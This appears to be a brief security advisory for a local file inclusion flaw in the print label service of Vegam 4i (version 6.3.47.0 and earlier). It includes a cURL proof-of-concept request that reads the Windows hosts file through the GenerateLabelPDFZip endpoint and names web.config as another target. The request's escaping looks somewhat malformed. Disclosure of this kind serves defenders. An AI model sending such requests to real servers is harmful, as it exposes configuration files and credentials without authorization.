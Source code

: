 ## Vegam 4i 

### Version affected <=6.3.47.0
___
<br>
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability, allowing an malicious user to include files on web server such as web.config, etc/host leading to sensitive information disclosure.
cURL command:

```curl
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip
```

